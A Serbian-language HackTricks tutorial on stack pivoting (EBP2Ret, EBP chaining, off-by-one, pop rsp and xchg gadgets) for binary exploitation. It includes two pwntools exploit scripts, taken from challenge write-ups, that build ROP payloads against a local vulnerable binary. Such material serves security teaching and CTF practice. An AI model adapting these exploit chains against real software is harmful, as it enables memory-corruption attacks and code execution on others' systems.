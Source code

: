 # Stack Pivoting - EBP2Ret - EBP chaining

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Ova tehnika iskorišćava mogućnost manipulacije **Base Pointer-a (EBP)** kako bi se lanciralo izvršavanje više funkcija kroz pažljivu upotrebu EBP registra i sekvence instrukcija `leave; ret`.

Kao podsetnik, **`leave`** u osnovi znači:

```
movl               %ebp, %esp
popl               %ebp
ret
```

I pošto je **EBP u stacku** pre EIP-a, moguće je kontrolisati ga kontrolišući stack.

### EBP2Ret

Ova tehnika je posebno korisna kada možete **izmeniti registar EBP ali nemate direktni način da promenite registar EIP**. Iskorišćava ponašanje funkcija kada završe izvršavanje.

Ako tokom izvršavanja `fvuln` uspete da ubacite **lažni EBP** u stack koji pokazuje na oblast u memoriji gde se nalazi adresa vašeg shell koda (plus 4 bajta za `pop` operaciju), možete indirektno kontrolisati EIP. Kako `fvuln` završava, ESP je postavljen na ovu izrađenu lokaciju, a naknadna `pop` operacija smanjuje ESP za 4, **efektivno ga usmeravajući na adresu koju je napadač tamo sačuvao.**\
Primetite kako **morate znati 2 adrese**: Onu gde će ići ESP, gde ćete morati upisati adresu na koju pokazuje ESP.

#### Konstrukcija eksploatacije

Prvo morate znati **adresu gde možete pisati proizvoljne podatke / adrese**. ESP će pokazivati ovde i **izvršiti prvi `ret`**.

Zatim, morate znati adresu koju koristi `ret` koja će **izvršiti proizvoljni kod**. Možete koristiti:

* Validnu [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) adresu.
* Adresu **`system()`** praćenu sa **4 smećna bajta** i adresom `"/bin/sh"` (x86 bitovi).
* Adresu **`jump esp;`** gedžeta ([**ret2esp**](ret2esp-ret2reg.md)) praćenu sa **shell kodom** za izvršavanje.
* Neki [**ROP**](rop-return-oriented-programing.md) lanac

Zapamtite da pre bilo koje od ovih adresa u kontrolisanom delu memorije, moraju biti **`4` bajta** zbog **`pop`** dela `leave` instrukcije. Bilo bi moguće zloupotrebiti ove 4B da postavite **drugi lažni EBP** i nastavite kontrolisati izvršavanje.

#### Off-By-One eksploatacija

Postoji specifična varijanta ove tehnike poznata kao "Off-By-One eksploatacija". Koristi se kada možete **samo izmeniti najmanje značajan bajt EBP-a**. U takvom slučaju, lokacija memorije koja čuva adresu na koju treba skočiti sa **`ret`** mora deliti prva tri bajta sa EBP-om, omogućavajući sličnu manipulaciju sa strožijim uslovima.

### **EBP Chaining**

Stavljanjem kontrolisane adrese u `EBP` unos stacka i adrese za `leave; ret` u `EIP`, moguće je **pomeriti `ESP` na kontrolisanu `EBP` adresu iz stacka**.

Sada je **`ESP`** kontrolisan pokazujući na željenu adresu i sledeća instrukcija za izvršavanje je `RET`. Da biste iskoristili ovo, moguće je staviti na kontrolisano mesto ESP-a ovo:

* **`&(sledeći lažni EBP)`** -> Učitaj novi EBP zbog `pop ebp` iz `leave` instrukcije
* **`system()`** -> Pozvan od strane `ret`
* **`&(leave;ret)`** -> Pozvan nakon što system završi, pomeriće ESP na lažni EBP i početi ponovo
* **`&("/bin/sh")`**-> Parametar za `system`

Na ovaj način je moguće povezati nekoliko lažnih EBPa da se kontroliše tok programa.

Iskreno, ovo je kao [ret2lib](ret2lib/), ali složenije bez očigledne koristi ali može biti interesantno u nekim ekstremnim slučajevima.

Osim toga, ovde imate [**primer izazova**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) koji koristi ovu tehniku sa **procurivanjem stacka** da pozove pobedničku funkciju. Ovo je konačni payload sa stranice:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```

## EBP je beskoristan

Kao što je [**objašnjeno u ovom postu**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), ako je binarni fajl kompajliran sa određenim optimizacijama, **EBP nikada ne može kontrolisati ESP**, stoga, bilo koji eksploit koji radi kontrolišući EBP će zapravo neuspeti jer nema stvaran efekat.\
To je zato što se **prolog i epilog menjaju** ako je binarni fajl optimizovan.

* **Nije optimizovan:**

```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```

* **Optimizovano:**

```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```

## Druge metode kontrole RSP

### **`pop rsp`** gedžet

[**Na ovoj stranici**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) možete pronaći primer korišćenja ove tehnike. Za ovaj izazov bilo je potrebno pozvati funkciju sa 2 specifična argumenta, i postojao je **`pop rsp` gedžet** i postoji **leak sa steka**:

```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```

### xchg \<rag>, rsp gedžet

```
pop <reg>                <=== return pointer
<reg value>
xchg <rag>, rsp
```

## Reference

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
